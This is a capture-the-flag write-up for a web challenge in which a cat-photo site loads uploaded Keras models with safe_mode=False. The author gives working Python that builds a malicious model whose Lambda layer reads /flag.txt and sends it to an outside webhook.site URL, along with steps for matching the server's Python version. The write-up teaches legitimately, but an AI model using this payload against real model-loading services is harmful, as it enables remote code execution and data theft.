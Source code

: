 # Web: CatGPT (481)

The latest and greatest in AI technology being used for that age-old internet diversion....looking at cat photos.

[http://gpt.challs.uscybergames.com/](http://gpt.challs.uscybergames.com/)

Update: Due to possible inconsistencies between local builds made with the provided files and the image on the remote service, here is a copy built on the author's machine for you to test with.

[https://storage.googleapis.com/us-cyber-open-files/cat-gpt.tar](https://storage.googleapis.com/us-cyber-open-files/cat-gpt.tar)

Author: [tsuto](https://github.com/jselliott)

**Files:** cat-gpt.zip (Too big), cat-gpt.tar (Too big, in Google storage link)

## Writeup

Luckily, for this challenge, we are given a zip file of the source code for the website.

First, we need to unzip it to look through the code. 

From the Dockerfile, we can see that the flag.txt file will be in the root directory of the Docker container running the challenge.

```dockerfile
# Copy flag
COPY flag.txt /flag.txt

# Protect flag
RUN chmod 444 /flag.txt
```

Inside model.py, we also can find an interesting function...

```py
def validate_model(model_path):

    try:

        model = tf.keras.models.load_model(model_path,safe_mode=False)

        validation_dir = os.path.join(app.config.get("MODEL_DIR"), 'cats_and_dogs_filtered/validation')

        IMG_SIZE = (150, 150)
        BATCH_SIZE = 32

        validation_datagen = ImageDataGenerator(rescale=1./255)

        validation_generator = validation_datagen.flow_from_directory(
            validation_dir,
            target_size=IMG_SIZE,
            batch_size=BATCH_SIZE,
            class_mode='binary'
        )

        validation_loss, validation_accuracy = model.evaluate(validation_generator, steps=validation_generator.n // BATCH_SIZE,verbose=0)

        return {"accuracy":round(validation_accuracy*100)}
    
    except Exception as e:
        logging.error(e)
        return {"error":"An error occurred while validating your model."}
```

The `safe_mode=False` is pretty interesting here. 

Looking this up, we can find the documentation for TensorFlow: [https://www.tensorflow.org/api_docs/python/tf/keras/models/load_model](https://www.tensorflow.org/api_docs/python/tf/keras/models/load_model)

Here, it says `When safe_mode=False, loading an object has the potential to trigger arbitrary code execution.`, which is very interesting for us.

Specifically, what this is referring to is Lambda layers, which are able to use Python code to transform the values of neurons in a neural network, although this can also do other things such as reading a file, as we will do here.

For this challenge, first, it's useful to build the Docker container locally.

If we run `./build-docker.sh` as root, we can do this, although there are some modifications needed.

If we don't modify anything, we get an error:

![Image 1](Screenshots/1.png)

So, in our Dockerfile, we will need to use `--break-system-packages` for both PIP commands to get this to load.

We also need to change the UID since the "UID is not unique" for the one set in the Dockerfile.

Anyways, once we get this loaded, we can start crafting our payload.

Also, doing more research, it turns out this vulnerability actually has a CVE! It is [CVE-2024-3660](https://nvd.nist.gov/vuln/detail/CVE-2024-3660).

And there is also a proof-of-concept posted [on GitHub](https://github.com/Azure/counterfit/wiki/Abusing-ML-model-file-formats-to-create-malware-on-AI-systems:-A-proof-of-concept).

Using this as an example, we can start writing Python code to generate a payload. 

While this example uses the functional mode of creating TensorFlow models, I find Sequential to be a bit easier.

Anways, we can start with a Python script!

We need to import TensorFlow first:

```py
from tensorflow import keras
```

Then, we need to define our input layer. Since the code we are given defines the images as 150x150 and images have 3 colors, the shape should be `(150,150,3)`.

```py
inputs = keras.Input(shape=(150,150,3))
```

Then, we can reduce this to one neuron in a layer by flattening and then using a dense layer.

```py
flatten = keras.layers.Flatten()
dense1 = keras.layers.Dense(units=1)
```

And now is time for our payload!

Using a webhook, we can make this make a request based on the contents of `/flag.txt`! And we can do this all within a Lambda layer!

```py
outputs = keras.layers.Lambda(lambda x: x if exec("__import__('requests').get(f'https://webhook.site/8a80adf1-94d1-4249-9ff3-7fd05707ddde?flag={str(open(\"/flag.txt\",\"r\").read())}')") else x)
```

And now, to build and save!

```py
model = keras.Sequential([inputs, flatten, dense1, outputs])

model.compile(optimizer="adam", loss="mean_squared_error", metrics=('accuracy',))

model.summary()

model.save("payload_native.h5")
```

Here, we also need the `metrics` parameter to ensure everything loads properly since loss and accuracy are used by the `validate_model` function.

Now, it's time to try this on our Docker container!

If we go to `http://localhost:1337`, we can access the website.

![Image 2](Screenshots/2.png)

Now, if we go to "contribute", we can upload our file and see what happens!

Unfortunately, nothing happens and it actually throws an error.

![Image 3](Screenshots/3.png)

This is because we're using the wrong version of Python!

![Image 4](Screenshots/4.png)
![Image 5](Screenshots/5.png)

While the Docker container is using Python 3.12.3, we are using 3.11.8. This is an issue because when the Lambda layer is serialized by TensorFlow, it compiles this to bytecode which changes by Python version. Therefore, we must at least use the same major version of Python as the server we are targeting. If we re-run our original Docker container with a volume, using the `-v $PWD:/tmp` flag, we can build from this container. However, we need to make sure the entire directory has public write permissions first. To separate, I also changed the Python script to name the output file `payload_docker.h5` instead. 

And now, if we build here and upload, we see it works!

![Image 6](Screenshots/6.png)
![Image 7](Screenshots/7.png)

Though, now we need to know what version of Python the main environment uses... At first, this was not given, but in an update to the challenge, a `.tar` file was included that includes all the information we need to find this exact environment! It turned out that Python was not as updated as it could have been, likely because Docker cached the results of the Python update from a previous container. 

Anyways, if we extract this `.tar` file, we can start doing some forensics to figure out what happened. 

When we start extracting the `layer.tar` file in `1fa339f371eedfc9bf8efc7dafb7218405123118ca7eb36d6ff1bffbc4c36542`, we already start to see what we need!

![Image 8](Screenshots/8.png)

And so now, we know that the server uses Python 3.10! The nice thing is that there is a [Docker container](https://hub.docker.com/_/python) for Python, which we can pull version 3.10 from!

Now, we can run this Docker container and install TensorFlow, and then generate our new payload.

![Image 9](Screenshots/9.png)

And once we have it, we can upload to the main instance and get our flag!

And checking our webhook, we can find the flag!

![Image 10](Screenshots/10.png)

And our flag is `SIVUSCG{c4t_0r_d0g_0rrrrrrr_fl4g}`!
